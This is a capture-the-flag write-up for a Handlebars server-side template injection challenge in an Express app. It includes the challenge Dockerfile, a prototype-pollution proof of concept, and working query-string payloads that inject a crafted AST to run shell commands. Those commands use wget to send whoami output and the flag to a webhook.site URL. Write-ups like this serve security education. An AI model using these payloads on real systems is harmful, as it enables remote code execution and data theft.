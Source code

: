# 🏷️ Request Handling

**Category:** Web  
**Description:**  
> They patched Handlebars SSTI, there's nothing to worry about.

-----
In this challenge, we are only given a Dockerfile.

```Dockerfile
FROM alpine:latest AS flag-builder

WORKDIR /build
RUN apk add gcc musl-dev
RUN cat <<EOF > getflag.c
#include <stdio.h>
int main() {
    printf("DUCTF{test_flag}\n");
}
EOF
RUN gcc -static getflag.c -o getflag

FROM node:22-alpine

WORKDIR /app
RUN npm init -y && npm install express@4 handlebars

RUN cat <<EOF > app.js
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
EOF

COPY --from=flag-builder /build/getflag /getflag
RUN chmod 111 /getflag

EXPOSE 8000

USER node
CMD node app.js
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/skeleton.gif?raw=true" alt="Skeleton GIF" width="300" height="300">

<br />

The only thing we have to focus on was `res.send(Handlebars.compile(req.query.x)({}));`

Googling about Handlebars, the only thing that came up was prototype pollution involving some AST manipulation.

Example : 

```js
pay= {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'pwd'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```
<br />
found a POC: 

```js
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg":"Hello!!!"}))
```
<br />

After trying out several approaches, we found this working payload:

```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(whoami)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```

And I got a callback.
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/1.PNG?raw=true' />
<br />
Retrieving the flag:
```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(../getflag|base64)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/2.PNG?raw=true'>
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/3.PNG?raw=true'>
<br />
FLAG : 

```
DUCTF{35116296c07966e5f645dac55a0fe81c}
```

